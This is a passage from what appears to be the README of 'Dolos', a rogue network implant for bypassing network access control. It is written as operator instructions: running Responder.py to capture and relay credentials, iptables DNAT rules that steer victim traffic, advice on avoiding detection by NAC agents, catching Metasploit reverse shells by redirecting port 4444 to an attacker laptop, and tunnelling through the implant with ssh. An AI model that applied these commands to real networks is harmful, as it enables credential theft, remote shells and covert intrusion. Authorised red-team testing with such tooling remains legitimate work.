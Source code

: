 ```

You can then run Responder.py on the bridge interface:

```
Responder.py -I mibr
```

This works by redirecting the traffic we want directly to the virtual IP of the bridge interface itself (169.254.66.77)

To make Responder.py more useful, you will want to add rules like these for all the protocols you want to manipulate.

You can also send these packets to your laptop/VM to run the attack. Simply modify the --to flag to point to your laptop/VM 172.31.255.X IP instead of 169.254.66.77.

##### WARNING:

Do not FLUSH your iptables rules when you are done! We need the other rules set up during the attack to keep us undetected. Instead, individually delete rules like this:

```
/sbin/iptables -t nat -D PREROUTING -i mibr -p tcp --dport 137 -j DNAT --to 169.254.66.77:137
```

It's basically the same rule but with a 'D' flag to delete instead of an 'A' flag to add.

##### WARNING:

Some NAC products use agents on endpoints to periodically authenticate them. These agents may be running on common ports like 80, 443, 8080, etc. If you capture those packets instead of letting them traverse the NAT, you could get burned. Therefore, it is recommended that you do not perform packet capture or relay attacks for extended periods of time.

#### Reverse Shells

Similar to the packet capture and relay attack setup, you can add an iptables rule to capture reverse shell traffic. Let's say your laptop/VM has the Dolos management network address 172.31.255.3 and you have a classic Metasploit HTTPS listener binding port 4444. To get shells, redirect traffic destined for TCP 4444 back to your host:

```
/sbin/iptables -t nat -A PREROUTING -i mibr -p tcp --dport 4444 -j DNAT --to 172.31.255.3:4444
```

Q: But what do I set as LHOST?
A: The IP of the trusted device that you hijacked the network connection from! That's the location other devices on the network can use to send packets your way.

You *could* also bind a port on the bridge interface and send the traffic to 169.254.66.77 if you wanted to get the shell back directly to the Dolos device. But again, it is generally better to treat the attacking device like a router instead.

#### Snapback

Snapback is pretty resource intensive and will likely not perform well, if at all, running on the NanoPi hardware. Instead, run Snapback on your laptop/VM, set up a SOCKS5 proxy through your Dolos device and add the proxy as a setting in you Snapback UI:

```
ssh -D 8080 root@172.31.255.1
```

The proxy setting should then be:
```